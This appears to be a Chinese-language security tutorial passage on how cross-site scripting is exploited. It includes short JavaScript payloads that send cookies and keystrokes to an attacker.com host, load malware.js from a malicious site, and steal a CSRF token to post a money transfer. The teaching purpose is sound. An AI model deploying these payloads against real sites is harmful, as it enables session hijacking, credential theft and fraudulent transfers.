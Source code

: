 ### XSS 利用方式

**1. 窃取 Cookie 和 Session**

这是最常见且危害最大的利用方式之一。通过执行恶意 JavaScript，攻击者可以获取用户的 Cookie，特别是那些用于身份验证的 Session Cookie。一旦获得，攻击者就可以冒充用户身份，无需密码即可登录网站，窃取个人信息、进行非法操作，比如转账或发布恶意内容

恶意代码示例：

```javascript
<script>
  document.location = 'http://attacker.com/cookie_stealer.php?c=' + document.cookie;
</script>
```

这段代码会将当前页面的所有 Cookie 发送到攻击者的服务器上

**2. 键盘记录**

攻击者可以植入键盘记录器来捕获用户在当前页面输入的所有信息，包括用户名、密码、信用卡号等敏感数据。这种方式尤其危险，因为用户可能在毫无察觉的情况下泄露重要信息

```javascript
<script>
  document.onkeypress = function(e) {
    // 将用户按键信息发送到攻击者服务器
    fetch('http://attacker.com/keylogger.php?key=' + e.key);
  };
</script>
```

**3. 钓鱼攻击**

通过 XSS，攻击者可以篡改网页内容，插入虚假的登录框或提示信息，诱骗用户输入账户和密码。例如，在合法网站的页面上弹出一个伪造的登录框，提示用户“您的会话已过期，请重新登录”。用户以为是正常操作，输入信息后，这些信息就会被发送到攻击者的服务器

**4. 网页挂马和恶意重定向**

攻击者可以利用 XSS 将用户浏览器重定向到恶意网站，或者在当前页面上加载恶意脚本（例如，加密勒索病毒）

恶意代码示例：

```javascript
<script>
  window.location.href = "http://malicious-site.com";
</script>
```

或者加载一个恶意脚本：

```javascript
<script src="http://malicious-site.com/malware.js"></script>
```

**5. 绕过同源策略**

虽然浏览器的同源策略限制了不同源的脚本互相访问，但在某些特定情况下，XSS 可以作为绕过同源策略的第一步。一旦在目标域上执行了脚本，攻击者就可以访问该域下的敏感数据，比如通过 AJAX 请求获取用户的私人信息

**6. 盗用 CSRF Token**

许多网站使用 CSRF Token 来防御跨站请求伪造攻击。但如果存在 XSS 漏洞，攻击者可以轻松地通过 JavaScript 获取页面中的 CSRF Token，然后构造一个合法的请求（例如，转账请求），并代表用户提交

恶意代码示例：

```javascript
<script>
  // 通过 AJAX 请求获取页面内容
  fetch('/user/profile').then(response => response.text()).then(html => {
    // 从 HTML 中解析 CSRF Token，并构造一个请求
    const csrfToken = html.match(/csrf-token" content="(.*?)">/)[1];
    fetch('/transfer', {
      method: 'POST',
      body: `amount=1000&to=attacker&_csrf=${csrfToken}`
    });
  });
</script>
```

**7. DOM 篡改**

攻击者可以修改页面上的 DOM 元素，例如，隐藏或替换页面上的某些内容，或者插入广告、恶意链接等